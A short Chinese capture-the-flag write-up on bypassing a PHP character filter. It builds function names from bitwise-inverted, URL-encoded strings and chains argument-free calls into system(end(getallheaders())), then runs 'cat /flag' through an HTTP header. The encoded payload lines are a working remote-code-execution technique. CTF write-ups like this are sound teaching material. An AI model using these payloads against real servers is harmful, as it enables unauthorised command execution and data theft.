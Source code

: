 审计一下代码，过滤了很多东西，字母，数字都过滤了且不能超过70个。

这里还有就是二维数组可以构造字符串。

```
?code=[~%8F%97%8F%96%91%99%90][!%FF]();
php 二维数组能够构造字符串
['phpinfo'][false] 可以构建一个字符串 "phpinfo"
```

![img](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20201223164808.png)

`~`这个符号是取反的符号，在二进制中会把0变成1,1变成0

![img](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20201223172717.png)

取反之后在进行URL编码

通过二维数组和取反和url编码能绕过过滤。

但是下面还有

```php
else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
```

括号中不能含有参数，即前面提到的无参数rce，俗称套娃

嵌套函数，这里用到了getallheaders()

![img](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012231727172.png)

```php
system(end(getallheaders()))
```

这样嵌套，再取反

```php
[~%8C%86%8C%8B%9A%92][!%FF]([~%9A%91%9B][!%FF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][!%FF]()));
```

再在http头加上cat /flag;

![img](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012231727173.png)

就得到flag了。